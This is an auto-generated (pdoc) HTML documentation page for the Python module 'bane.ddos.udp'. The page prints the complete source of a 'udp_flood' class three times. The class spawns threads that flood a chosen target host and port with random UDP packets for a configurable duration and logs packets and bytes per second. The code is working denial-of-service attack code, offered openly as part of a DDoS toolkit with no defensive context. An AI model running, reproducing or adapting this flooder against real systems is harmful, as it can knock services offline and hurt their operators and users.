 <body>
<main>
<article id="content">
<header>
<h1 class="title">Module <code>bane.ddos.udp</code></h1>
</header>
<section id="section-intro">
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">from bane.ddos.utils import *

class udp_flood(DDoS_Class):
    def __init__(
        self,
        u,
        p=80,
        threads_daemon=True,
        interval=0.001,
        min_size=10,
        max_size=10,
        connection=True,
        duration=60,
        threads=1,
        limiting=True,
        logs=False,
    ):
        self.target = u
        self.port = p
        self.interval = interval
        self.min_size = min_size
        self.max_size = max_size
        self.connection = connection
        self.duration = duration
        self.limiting = limiting
        self.logs = logs
        self.stop = False
        self.counter = 0
        self.start = time.time()
        for x in range(threads):
            try:
                t = threading.Thread(target=self.attack)
                t.daemon = threads_daemon
                t.start()
            except:
                pass

    def attack(self):
        try:
            time.sleep(1)
            tm = time.time()
            size = 0
            while True:
                if (
                    int(time.time() - self.start) &gt;= self.duration
                ):  # this is a safety mechanism so the attack won&#39;t run forever
                    break
                if self.stop == True:
                    break
                try:
                    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
                    if self.connection == True:
                        s.connect((self.target, self.port))
                    msg = &#34;&#34;
                    for x in range(random.randint(self.min_size, self.max_size)):
                        msg += random.choice(lis)
                    if len(msg) &gt; 1400:
                        msg = msg[
                            0:1400
                        ]  # make sure all payloads&#39; sizes are on the right range
                    s.sendto((msg.encode(&#34;utf-8&#34;)), (self.target, self.port))
                    size += len(msg)
                    self.counter += 1
                    if (self.logs == True) and (int(time.time() - tm) == 1):
                        sys.stdout.write(
                            &#34;\rPackets: {} | Bytes/s: {}   &#34;.format(self.counter, size)
                        )
                        sys.stdout.flush()
                        tm = time.time()
                        size = 0
                    if self.limiting == True:
                        time.sleep(self.interval)
                except:
                    try:
                        time.sleep(self.interval)
                    except:
                        pass
            self.kill()
        except:
            pass</code></pre>
</details>
</section>
<section>
</section>
<section>
</section>
<section>
</section>
<section>
<h2 class="section-title" id="header-classes">Classes</h2>
<dl>
<dt id="bane.ddos.udp.udp_flood"><code class="flex name class">
<span>class <span class="ident">udp_flood</span></span>
<span>(</span><span>u, p=80, threads_daemon=True, interval=0.001, min_size=10, max_size=10, connection=True, duration=60, threads=1, limiting=True, logs=False)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">class udp_flood(DDoS_Class):
    def __init__(
        self,
        u,
        p=80,
        threads_daemon=True,
        interval=0.001,
        min_size=10,
        max_size=10,
        connection=True,
        duration=60,
        threads=1,
        limiting=True,
        logs=False,
    ):
        self.target = u
        self.port = p
        self.interval = interval
        self.min_size = min_size
        self.max_size = max_size
        self.connection = connection
        self.duration = duration
        self.limiting = limiting
        self.logs = logs
        self.stop = False
        self.counter = 0
        self.start = time.time()
        for x in range(threads):
            try:
                t = threading.Thread(target=self.attack)
                t.daemon = threads_daemon
                t.start()
            except:
                pass

    def attack(self):
        try:
            time.sleep(1)
            tm = time.time()
            size = 0
            while True:
                if (
                    int(time.time() - self.start) &gt;= self.duration
                ):  # this is a safety mechanism so the attack won&#39;t run forever
                    break
                if self.stop == True:
                    break
                try:
                    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
                    if self.connection == True:
                        s.connect((self.target, self.port))
                    msg = &#34;&#34;
                    for x in range(random.randint(self.min_size, self.max_size)):
                        msg += random.choice(lis)
                    if len(msg) &gt; 1400:
                        msg = msg[
                            0:1400
                        ]  # make sure all payloads&#39; sizes are on the right range
                    s.sendto((msg.encode(&#34;utf-8&#34;)), (self.target, self.port))
                    size += len(msg)
                    self.counter += 1
                    if (self.logs == True) and (int(time.time() - tm) == 1):
                        sys.stdout.write(
                            &#34;\rPackets: {} | Bytes/s: {}   &#34;.format(self.counter, size)
                        )
                        sys.stdout.flush()
                        tm = time.time()
                        size = 0
                    if self.limiting == True:
                        time.sleep(self.interval)
                except:
                    try:
                        time.sleep(self.interval)
                    except:
                        pass
            self.kill()
        except:
            pass</code></pre>
</details>
<h3>Ancestors</h3>
<ul class="hlist">
<li><a title="bane.ddos.utils.DDoS_Class" href="utils.html#bane.ddos.utils.DDoS_Class">DDoS_Class</a></li>
</ul>
<h3>Methods</h3>
<dl>
<dt id="bane.ddos.udp.udp_flood.attack"><code class="name flex">
<span>def <span class="ident">attack</span></span>(<span>self)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def attack(self):
    try:
        time.sleep(1)
        tm = time.time()
        size = 0
        while True:
            if (
                int(time.time() - self.start) &gt;= self.duration
            ):  # this is a safety mechanism so the attack won&#39;t run forever
                break
            if self.stop == True:
                break
            try:
                s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
                if self.connection == True:
                    s.connect((self.target, self.port))
                msg = &#34;&#34;
                for x in range(random.randint(self.min_size, self.max_size)):
                    msg += random.choice(lis)
                if len(msg) &gt; 1400:
                    msg = msg[
                        0:1400
                    ]  # make sure all payloads&#39; sizes are on the right range
                s.sendto((msg.encode(&#34;utf-8&#34;)), (self.target, self.port))
                size += len(msg)
                self.counter += 1
                if (self.logs == True) and (int(time.time() - tm) == 1):
                    sys.stdout.write(
                        &#34;\rPackets: {} | Bytes/s: {}   &#34;.format(self.counter, size)
                    )
                    sys.stdout.flush()
                    tm = time.time()
                    size = 0
                if self.limiting == True:
                    time.sleep(self.interval)
            except:
                try:
                    time.sleep(self.interval)
                except:
                    pass
        self.kill()
    except:
        pass</code></pre>
</details>
</dd>
</dl>
</dd>
</dl>
</section>
</article>
<nav id="sidebar">
<h1>Index</h1>
<div class="toc">
<ul></ul>
</div>
<ul id="index">
<li><h3>Super-module</h3>
<ul>
<li><code><a title="bane.ddos" href="index.md">bane.ddos</a></code></li>
</ul>
</li>
<li><h3><a href="#header-classes">Classes</a></h3>
<ul>
<li>
<h4><code><a title="bane.ddos.udp.udp_flood" href="#bane.ddos.udp.udp_flood">udp_flood</a></code></h4>
<ul class="">
<li><code><a title="bane.ddos.udp.udp_flood.attack" href="#bane.ddos.udp.udp_flood.attack">attack</a></code></li>
</ul>
</li>
</ul>
</li>
</ul>
</nav>
</main>
<footer id="footer">
<p>Generated by <a href="https://pdoc3.github.io/pdoc" title="pdoc: Python API documentation generator"><cite>pdoc</cite> 0.10.0</a>.</p>
</footer>
</body>
</html>